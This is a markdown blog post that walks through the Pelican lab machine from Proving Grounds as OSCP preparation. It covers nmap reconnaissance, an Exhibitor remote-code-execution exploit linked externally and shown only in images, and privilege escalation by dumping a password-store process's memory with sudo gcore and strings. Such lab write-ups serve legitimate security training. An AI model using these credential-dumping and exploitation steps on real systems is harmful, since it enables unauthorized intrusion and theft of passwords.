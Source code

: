 ```yaml
---
date: '2024-09-13'
before : '2024-09-10'
after : '2024-09-16'
title: 'OSCP Prep: Proving Grounds : Pelican'
categories: ['C-SEC', 'proving_grounds', 'full-machine', 'ENG']
summary: 'Solving Pelican machine from Proving Grounds'
thumbnail: '../contentImages/pelican/1.png'
---
```


## 1. Recon
- basic nmap scan
```
┌──(hosan㉿kali)-[~]
└─$ sudo nmap 192.168.164.98 -p- -T4            
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-11 17:07 EDT
Stats: 0:00:00 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 0.59% done
Stats: 0:00:00 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 1.63% done; ETC: 17:08 (0:01:00 remaining)
Stats: 0:00:00 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 2.27% done; ETC: 17:08 (0:00:43 remaining)
Nmap scan report for 192.168.164.98
Host is up (0.032s latency).
Not shown: 65526 closed tcp ports (reset)
PORT      STATE SERVICE
22/tcp    open  ssh
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
631/tcp   open  ipp
2181/tcp  open  eforward
2222/tcp  open  EtherNetIP-1
8080/tcp  open  http-proxy
8081/tcp  open  blackice-icecap
46295/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 19.46 seconds

```
Oh my gosh.
- port 22 (ssh)
```
PORT      STATE SERVICE     VERSION
22/tcp    open  ssh         OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 a8:e1:60:68:be:f5:8e:70:70:54:b4:27:ee:9a:7e:7f (RSA)
|   256 bb:99:9a:45:3f:35:0b:b3:49:e6:cf:11:49:87:8d:94 (ECDSA)
|_  256 f2:eb:fc:45:d7:e9:80:77:66:a3:93:53:de:00:57:9c (ED25519)
```
- port 139, 445 (samba)
```
139/tcp   open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp   open  netbios-ssn Samba smbd 4.9.5-Debian (workgroup: WORKGROUP)

Host script results:
|_clock-skew: mean: 1h20m02s, deviation: 2h18m34s, median: 1s
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.9.5-Debian)
|   Computer name: pelican
|   NetBIOS computer name: PELICAN\x00
|   Domain name: \x00
|   FQDN: pelican
|_  System time: 2024-09-11T17:09:43-04:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time: 
|   date: 2024-09-11T21:09:41
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
```
- port 631 (ipp)
```
631/tcp   open  ipp         CUPS 2.2
|_http-title: Forbidden - CUPS v2.2.10
| http-methods: 
|_  Potentially risky methods: PUT
|_http-server-header: CUPS/2.2 IPP/2.1
```
- port 2191 (zookeeper)
```
2181/tcp  open  zookeeper   Zookeeper 3.4.6-1569965 (Built on 02/20/2014)
```
- port 2222 (ssh)
```
2222/tcp  open  ssh         OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 a8:e1:60:68:be:f5:8e:70:70:54:b4:27:ee:9a:7e:7f (RSA)
|   256 bb:99:9a:45:3f:35:0b:b3:49:e6:cf:11:49:87:8d:94 (ECDSA)
|_  256 f2:eb:fc:45:d7:e9:80:77:66:a3:93:53:de:00:57:9c (ED25519)
```
- port 8080, 8081 (http)
```
8080/tcp  open  http        Jetty 1.0
|_http-title: Error 404 Not Found
|_http-server-header: Jetty(1.0)
8081/tcp  open  http        nginx 1.14.2
|_http-server-header: nginx/1.14.2
|_http-title: Did not follow redirect to http://192.168.164.98:8080/exhibitor/v1/ui/index.html
```
- port 46295 (java-rmi)
```
46295/tcp open  java-rmi    Java RMI
```

So let's start enueration...

## 2. Enumeration

- webapp
![image](../contentImages/pelican/1.png)

Somehow this should be connected to port 2191 (zookeeper). 

Searching with keyword exhibitor:

```
┌──(hosan㉿kali)-[~]
└─$ searchsploit exhibitor
Exhibitor Web UI 1.7.1 - Remote Code Execution java/webapps/48654.txt
```

Let's take a closer look. I got a script from:

https://github.com/thehunt1s0n/Exihibitor-RCE.git

Then:

![image](../contentImages/pelican/3.png)


Got a shell.

![image](../contentImages/pelican/4.png)

Or 

```

$ sudo -l
sudo -l
Matching Defaults entries for charles on pelican:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User charles may run the following commands on pelican:
    (ALL) NOPASSWD: /usr/bin/gcore

```
So maybe we should read password-store with gcore.

```
ps aux | grep "password-store"

(found out that PID is 490)

sudo /usr/bin/gcore 490

(created core.490)

strings ./core.490

(The `strings` command in Linux is used to extract and display readable **printable characters** (i.e., strings of text) from binary files or any non-text files)
```

![image](../contentImages/pelican/5.png)

So, let's try to escalate our privilege

![image](../contentImages/pelican/6.png)

Done!


Tipp: try to undestand gtfobins more correctly.

---
## Source

- Proving Grounds
- Me!